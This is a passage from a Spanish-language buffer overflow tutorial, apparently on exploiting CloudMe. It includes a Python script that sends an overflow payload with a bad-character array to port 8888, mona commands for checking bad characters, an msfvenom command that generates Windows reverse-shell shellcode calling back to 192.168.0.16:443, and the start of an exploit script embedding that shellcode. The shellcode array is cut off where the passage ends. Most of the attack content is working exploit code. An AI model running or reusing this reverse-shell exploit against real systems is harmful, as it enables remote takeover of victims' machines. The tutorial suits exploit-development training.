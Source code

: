         b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0 \xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
        offset = 1052
        before_eip = b"A" * offset
        eip = b"B" * 4

        payload = before_eip + eip + badChars

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((remoteAddress, 8888))
        s.send(payload)

    if __name__ == "__main__":
        executeExploit()
    ```

1. En el Immunity debugger con mona miramos que caracteres no an sido interpretado

    ```{r, echo = FALSE, fig.cap="Buf Bad chars", out.width="90%"}
        knitr::include_graphics("images/Buff-BadChars.png")
    ```

    ```bash
    !mona compare -f C:\Users\S4vitar\Desktop\CloudMe\bytearray.txt -a 0022D470
    ```

En el caso que nos reporte **BadChars** tendriamos que quitarlos de la lista y volver a effectuar lo mismo hasta que no
tengamos mas **BadChars**. Y desde aqui nos podemos crear el script malicioso con la lista de caracteres que tenemos. En

![Buff-BadChars](/assets/images/Buff-BadChars.png)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.16 LPORT=443 -a x86 --platform windows -b "\x00" -e x86/shikata_ga_nai -f c
```

```{r, echo = FALSE, fig.cap="Buf Shell code", out.width="90%"}
    knitr::include_graphics("images/Buff-Shell-code.png")
```

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time
# Variables globales
![Buff-Shell-code](/assets/images/Buff-Shell-code.png) 
remoteAddress = "127.0.0.1"

def executeExploit():
    shellcode = (b"\xba\xf8\x9f\xaf\x72\xda\xce\xd9\x74\x24\xf4\x5d\x31\xc9\xb1"
        b"\x52\x31\x55\x12\x83\xc5\x04\x03\xad\x91\x4d\x87\xb1\x46\x13"
        b"\x68\x49\x97\x74\xe0\xac\xa6\xb4\x96\xa5\x99\x04\xdc\xeb\x15"
        b"\xee\xb0\x1f\xad\x82\x1c\x10\x06\x28\x7b\x1f\x97\x01\xbf\x3e"
        b"\x1b\x58\xec\xe0\x22\x93\xe1\xe1\x63\xce\x08\xb3\x3c\x84\xbf"
        b"\x23\x48\xd0\x03\xc8\x02\xf4\x03\x2d\xd2\xf7\x22\xe0\x68\xae"
        b"\xe4\x03\xbc\xda\xac\x1b\xa1\xe7\x67\x90\x11\x93\x79\x70\x68"
        b"\x5c\xd5\xbd\x44\xaf\x27\xfa\x63\x50\x52\xf2\x97\xed\x65\xc1"
        b"\xea\x29\xe3\xd1\x4d\xb9\x53\x3d\x6f\x6e\x05\xb6\x63\xdb\x41"
        b"\x90\x67\xda\x86\xab\x9c\x57\x29\x7b\x15\x23\x0e\x5f\x7d\xf7"
        b"\x2f\xc6\xdb\x56\x4f\x18\x84\x07\xf5\x53\x29\x53\x84\x3e\x26"
        b"\x90\xa5\xc0\xb6\xbe\xbe\xb3\x84\x61\x15\x5b\xa5\xea\xb3\x9c"
        b"\xca\xc0\x04\x32\x35\xeb\x74\x1b\xf2\xbf\x24\x33\xd3\xbf\xae"
        b"\xc3\xdc\x15\x60\x93\x72\xc6\xc1\x43\x33\xb6\xa9\x89\xbc\xe9"
```